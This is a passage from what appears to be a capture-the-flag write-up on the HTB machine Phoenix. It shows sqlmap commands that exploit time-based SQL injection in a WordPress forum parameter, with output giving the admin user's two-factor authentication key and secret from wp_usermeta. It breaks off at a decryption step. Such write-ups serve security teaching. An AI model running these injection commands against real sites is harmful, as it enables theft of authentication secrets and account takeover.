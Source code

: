 I’ll show it in WordPress Source the [video above](https://www.youtube.com/watch?v=gwlSlgORtnI), but `get_user_meta` is a [WordPress function](https://developer.wordpress.org/reference/functions/get_user_meta/) for getting data from the `wp_usermeta` table.

#### Read Secret / Key

[This](https://codex.wordpress.org/Database_Description#Table:_wp_usermeta) describes the `wp_usermeta` table:

![image-20220216111212029](https://0xdfimages.gitlab.io/img/image-20220216111212029.png)

I’ll update my `sqlmap` to dump these for the phoenix user. For example, to get the key, I’ll use `-T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_get_auth_rnd_string'"`:

```

oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_get_auth_rnd_string'" --dump
...[snip]...
Database: wordpress                                 
Table: wp_usermeta                                  
[1 entry]                                           
+------------+                                      
| meta_value |
+------------+
| kHHxxX3f   |
+------------+
...[snip]...
oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_gauth_key'" --dump 
...[snip]...
 Database: wordpress
Table: wp_usermeta
[1 entry]
+--------------------------------------------------------------------------------------------------------------+
| meta_value                                                                                                   |
+--------------------------------------------------------------------------------------------------------------+
| qGEPwI6RQBxF4aXM6PVuriofiwCH4mjc4ZjO3jWN5gDDX5MzLHTfDk3tRGK7vwkkTbAjoxNfqFeMjJZoSI5yPF25Hd5b8lSaF/Dpc6WMBTA= |
+--------------------------------------------------------------------------------------------------------------+

```

#### Decrypt Secret

Back in the source for the plugin, the secret and the key were passed to`decrypt_data`. It is a simple AES-128-CBC decryption:

